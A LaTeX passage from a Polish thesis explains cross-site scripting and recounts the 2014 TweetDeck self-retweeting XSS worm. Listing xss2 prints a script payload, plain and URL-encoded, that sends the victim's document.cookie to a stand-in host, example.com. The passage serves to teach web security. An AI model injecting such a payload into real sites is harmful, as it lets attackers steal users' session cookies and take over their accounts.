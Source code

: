 \documentclass[11pt,a4paper,polish,thesis]{dcsbook}
\begin{document}
Przekazanie kodu \ref {xss2} w postaci parametru \textit{name} spowoduje wykonanie tego kodu po stronie przeglądarki. Efektem wywołania będzie przekierowanie użytkownika na adres internetowy z przekazaną zawartością ciasteczka w adresie URL.

\begin{lstlisting}[language=php,frame=single,caption=przykład wykorzystania podatności XSS,label=xss2,numbers=left]
<script>document.location="http://example.com/?c="+document.cookie;</script>

%3Cscript%3Edocument.location%3D%22http%3A%2F%2Fexample.com%2F%3Fc%3D%22%2Bdocument.cookie%3B%3C%2Fscript%3E (wersja zakodowana)
\end{lstlisting}

W 2014 roku odkryto podatność aplikacji TweetDeck \cite{tweetdeck} (działającej jako rozszerzenie do przeglądarki Google Chrome), która oferowała interakcję z popularnym serwisem społecznościowym Twitter. Podatność polegała na renderowaniu treści tweeta z wykorzystaniem silnika interpretującego JavaScript i bez zamiany danych pobranych z API na encje.

\begin{figure}[h]
\centering
\includegraphics[scale=0.75]{tweetdeck}
\label{tweetdeckpng}
\caption{tweet wykorzystujący podatność XSS w TweetDeck}
\end{figure}

Użytkownik \textit{@derGeruhn} zamieścił na swoim profilu wpis, który wykorzystywał odnalezioną podatność. Wyświetlony w aplikacji TweetDeck zawierał tylko emotikonę serca, a poprzedzający ją kod został wykonany z uprawnieniami ofiary. Zamieszczony kod powodował rozpowszechnienie wpisu przez skopiowanie go na profil ofiary (\textit{ang. retweet}). Próba usunięcia wpisu kończyła się pojawieniem się komunikatu ,,XSS in Tweetdeck''.
\end{document}
